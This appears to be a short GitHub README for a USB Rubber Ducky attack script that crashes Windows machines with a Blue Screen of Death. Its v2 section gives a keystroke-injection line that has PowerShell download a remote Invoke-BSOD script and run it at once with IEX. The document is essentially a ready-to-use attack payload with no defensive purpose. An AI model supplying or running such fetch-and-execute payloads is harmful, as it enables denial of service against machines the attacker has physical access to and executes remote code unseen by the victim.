 # BQOD - tHE_bLUE_qUACK_oF_dEATH
A script for Rubber Ducky which uses the Invoke-bsod powershell technique to trigger a Blue Screen of Death

</BR>

</BR>


https://github.com/peewpw/Invoke-BSOD


</BR>

![Alt text](https://github.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/blob/master/img/DUCKY-KILLERS.jpg)


</BR>

<h2>v1</h2>

</br>

<h3> Requirements</h3>

</br>

-Twin Duck Firmware

-Rubber Ducky Must be Named "_"

-BSOD.exe

</BR>

<h3>Os Compatibility</h3>
  
</BR>

-Windows Vista or Earlier

</BR>

![Alt text](https://raw.githubusercontent.com/JonnyBanana/BQOD-tHE_bLUE_qUACK_oF-dEATH-/master/img/BQOD.JPG)

</BR>

<h2>v2</h2>

</br>

<h3>Requirements</h3>

</br>

-None

</BR>

<h3>Os Compatibility</h3>

</BR>

-Windows Vista or Earlier

</BR>

STRING powershell IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD

</BR>
